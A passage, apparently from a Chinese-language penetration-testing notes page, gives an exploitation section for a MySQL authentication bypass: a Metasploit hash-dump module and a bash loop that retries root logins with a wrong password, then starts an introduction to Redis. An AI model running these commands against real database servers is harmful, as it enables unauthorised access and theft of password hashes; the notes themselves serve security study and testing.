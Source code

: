 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512142357.png-water_print](assets/1699409321-c58795e0e5a4e70ca6871f34119aeedb.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512142357.png-water_print")

#### [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)漏洞利用

msf：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_authbypass_hashdump<br>``` |

Linux shell:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>for i in `seq 1 1000`;do mysql -uroot -pwrong -h IP -P3306;done<br>``` |

## [](#redis)Redis

### [](#redis-%E7%AE%80%E4%BB%8B)redis 简介

Redis 是大家常说的非关系型数据库中的一种，是一个开源的使用 ANSI 语言编写、支持网络可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API
